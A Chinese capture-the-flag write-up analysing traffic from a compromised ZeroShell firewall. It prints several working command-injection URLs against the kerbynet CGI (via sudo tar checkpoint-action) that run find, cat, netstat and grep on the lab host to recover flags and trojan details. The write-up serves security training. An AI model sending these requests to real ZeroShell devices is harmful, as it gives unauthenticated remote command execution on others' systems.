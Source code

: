 ```yaml
---
title: 2024长城杯&CISCN-威胁流量分析-zeroshell
subtitle:
date: 2025-03-14T14:47:04+08:00
slug: 2cd83e6
draft: false
author:
  name: T1ng
  link:
  email:
  avatar: /images/avater.jpg
description:
keywords:
license:
comment: false
weight: 0
tags:
  - 玄机
categories:
  - 玄机
hiddenFromHomePage: false
hiddenFromSearch: false
hiddenFromRelated: false
hiddenFromFeed: false
summary:
resources:
  - name: featured-image
    src: featured-image.jpg
  - name: featured-image-preview
    src: featured-image-preview.jpg
toc: true
math: false
lightgallery: false
password:
message:
repost:
  enable: false
  url:

# See details front matter: https://fixit.lruihao.cn/documentation/content-management/introduction/#front-matter
---
```


<!--more-->

<!-- Place resource files in the current article directory and reference them using relative paths, like this: `![alt](images/screenshot.jpg)`. -->

```
1.从数据包中找出攻击者利用漏洞开展攻击的会话（攻击者执行了一条命令)，写出该会话中设置的flag。
2.通过漏洞利用获取设备控制权限，然后查找设备上的flag文件，提取flag文件内容。
3.找出受控机防火墙设备中驻留木马的外联域名或IP地址，结果提交形式：flag{xxxx}，如flag{www.abc.com}或flag{16.122.33.44}
4.请写出木马进程执行的本体文件的名称，结果提交形式：flag{xxxx}，仅写文件名不加路径
5.请提取驻留的木马本体文件，通过逆向分析找出木马样本通信使用的加密密钥。结果提交形式
6.请写出驻留木马的启动项，注意写出启动文件的完整路径。结果提交形式：flag{xxxxxxx}，如flag{/a/b/c}
```

1、分析流量包，防火墙的ip为`61.139.2.100`，猜测攻击为web的HTTP，

```
ip.addr == 61.139.2.100 && http
```



![](images/38b6d72a4d22107cbd249efd5ffbad5d.png)

追踪HTTP流，



![](images/f83580bcd2882c95e27bf21748f56e01.png)

从Get可知，执行了`ps -ef`命令，才会有这个回显，对Referer部分base64解码

![](images/74f69a89d02667d5c958136e5ff24adb.png)

拿到第一题flag：flag{6C2E38DA-D8E4-8D84-4A4F-E2ABD07A1F3A}

2、第一问的分析过程中，发现执行了`ps -ef`命令，说明存在命令执行RCE。根据第一问分析过程中的playload去进行攻击，仅需要修改`ps -ef`命令部分，即可去查找flag文件
修改前：

``` 
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='ps -ef'%0A'
```

修改后：

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='find / -name 'flag''%0A'
```

仅把`ps%20-ef`修改为`find%20/%20-name%20'flag'` 

![](images/fa1ff9a727f1e891ec8f29944d62c932.png)

发现了flag文件，按照顺序尝试进行读取，还是现成的playload构造`tac`指令，拿到/Database/flag文件内容。

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='cat /Database/flag'%0A'
```



![](images/1334dd4dbdfaa34a6170ff4d7981e78d.png)

拿到第二问flag：flag{c6045425-6e6e-41d0-be09-95682a4f65c4}

3、找出驻留木马的外联域名，意思就是我们现在需要去获得当前系统的网络连接、路由表、接口信息等，在linux中需执行`netstat -anop`，根据给出的playload继续打

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='netstat -anop'%0A'
```

在url前加上view-source:应该更容易观察、分析

```
view-source:http://61.139.2.100/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type=%27%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='netstat -anop'%0A'
```



![](images/e20fc419674daa34377b7cb223083da1.png)

发现一个特殊ip，应该就是要寻找的ip
第三问flag：flag{202.115.89.103}

4、木马进程执行的本体文件的名称，上一问，我们在分析木马ip时同时找出来运行的pid，继续用playload执行`ls -l /proc/10541`命令，pid为`10541`的文件就是本体文件

```
cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec='ps'%0A'
```



![](images/47dd08b932623b9d070f49da6fb33d43.png)

第四问flag：flag{.nginx}

第五问让我们寻找加密密钥，我们先把`.nginx`文件down到本地。先找到`.nginx`文件的具体位置，用`cat`查看`.nginx`。
`ls -l /proc/10541`查找具体路径

``` 
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec='ls%20-l /proc/10541'%0A'
```



![](images/11ee9d23d5a06bf3fb8dd4050251fd4f.png)

再用`cat`查看

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo%20tar%20-cf%20/dev/null%20/dev/null%20--checkpoint=1%20--checkpoint-action=exec='cat /tmp/.nginx'%0A'
```

尝试再页面内搜索`202.115.89.103`恶意ip

![](images/5a6fe911cc960783f86241691f3ab12c.png)

发现其后跟着一堆数字字母，猜测是密钥了
第五问flag：flag{11223344qweasdzxc}

6、已经知道木马文件的名称了，直接使用`grep`查找，尝试在各个目录里查找，最后在`/var`目录发现

```
/cgi-bin/kerbynet?Action=x509view&Section=NoAuthREQ&User=&x509type='%0A/etc/sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec='grep -r ".nginx" /var'%0A'
```



![](images/bb68f1b78c46f3439e9ca232aa417f78.png)

第六问flag：flag{/var/register/system/startup/scripts/nat/File}
